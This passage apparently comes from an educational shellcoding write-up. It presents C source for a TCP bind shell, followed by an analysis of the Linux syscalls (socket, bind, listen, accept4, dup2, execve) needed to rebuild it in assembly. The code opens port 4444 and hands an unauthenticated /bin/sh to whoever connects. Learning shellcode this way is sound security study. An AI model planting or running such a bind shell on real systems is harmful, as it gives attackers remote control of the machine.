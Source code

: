 #define DPORT	4444

int main(int argc, char **argv) {
	int sfd, cfd;
	struct sockaddr_in my_addr;

	sfd = socket(AF_INET, SOCK_STREAM, 0);

	memset(&my_addr, 0, sizeof(struct sockaddr));

	my_addr.sin_family 	= AF_INET;
	my_addr.sin_port 	= htons(DPORT);
	my_addr.sin_addr.s_addr = INADDR_ANY;

	bind(sfd, (struct sockaddr *) &my_addr, sizeof(my_addr));

	listen(sfd, 0);

	cfd = accept(sfd, NULL, NULL);

	dup2(cfd, 0);
	dup2(cfd, 1);
	dup2(cfd, 2);
	execve((const char *)"/bin/sh", NULL, NULL);
	return 0;
}
{% endhighlight %}

## PoC analysis

The shellcode has very few system calls to implement in our assembler code.
Before Linux kernel 4.3, every system calls in the network programming domain,
was multiplexed by socketcall() system call.

However, socketcall() was not available on every architecture, there is no such
as call in x86-64 or ARM processor where single system calls are available
instead.

Newer Linux kernel versions, for x86-32 architecture, introduced also separate
system calls to facilitates the creation of seccomp(2) filters that filter
sockets system calls and to have some performance boost.

Additionally, during system call opcode mapping, I've discovered that accept()
is not a real call itself, instead, it is a wrapper to accept4() call with the
latest parameter, flag, set to 0.

### socket()

The socket() system call it is used to create a communication endpoint, mapped
as a file descriptor accordingly to the Unix definition that everything is a
file.

Since we want to create a reliable TCP socket, we will set the socket type to
SOCK_STREAM and the domain to AF_INET, to support IPv4 protocols.

The last parameter, protocol, let us specify different protocols (if any)
available for the defined double <domain, type>. Setting it to 0, it will be up
to the Operating System to choose the default one.
